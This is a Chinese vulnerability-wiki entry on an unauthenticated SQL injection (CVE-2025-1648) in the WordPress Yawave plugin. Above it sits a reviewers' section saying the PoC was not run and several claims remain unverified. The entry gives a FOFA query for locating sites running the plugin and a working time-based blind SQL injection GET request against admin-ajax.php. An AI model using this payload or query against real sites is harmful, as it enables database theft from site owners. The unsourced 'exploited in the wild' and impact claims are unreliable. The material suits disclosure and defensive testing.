

## 核对与使用边界

- 测绘字段处置：原 fofa 字段为残缺表达式、错误平台语法或当前解析器不支持的形式，原值完整保留到 fofa_unverified，不把它当作已校验查询或受影响资产证据。正文检索方法保留；具体问题见下列原审阅项。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=2.9.1; unauth js_liveblog_update claimed

- **证据待核（1）**：frontmatter fofa残缺为body=，正文有完整指纹。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **事实待核（2）**：时间载荷只有请求与截图，无正常基线/文本响应/鉴权源码。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（3）**：在野已知与影响面广等无来源；修复只有关注厂商未给版本。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **结论使用边界（4）**：描述其他SQL查询附加不应自动理解支持堆叠任意语句。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# WordPress Yawave插件 SQL注入漏洞(CVE-2025-1648)

> 指纹字段校订（2026-10-04）：本文原归档明确标为 FOFA 的完整表达式已记入 `fofa`；原残缺 `fofa_unverified` 值逐字保存在 `previous_fofa_unverified`。后文关于该字段残缺的旧说明只描述校订前状态。查询用于产品检索，不证明资产受影响。

# 漏洞描述

由于 WordPress的 Yawave 插件对用户提供的参数的转义不足以及对现有 SQL 查询的准备不足，因此容易受到通过“lbid”参数进行 SQL 注入的攻击。这使得未经身份验证的攻击者能够将其他 SQL 查询附加到现有查询中，这些查询可用于从数据库中提取敏感信息。

# 影响版本

Yawave <= 2.9.1

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/wp-content/plugins/yawave"

POC/EXP：

```http
GET /wp-admin/admin-ajax.php?action=js_liveblog_update&lbid=(SELECT%205845%20FROM%20(SELECT(SLEEP(2)))LzeF) HTTP/1.1
Content-Type: application/json
Host: 127.0.0.1

```



# 漏洞修复

关注厂商官网动态，及时更新补丁信息。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
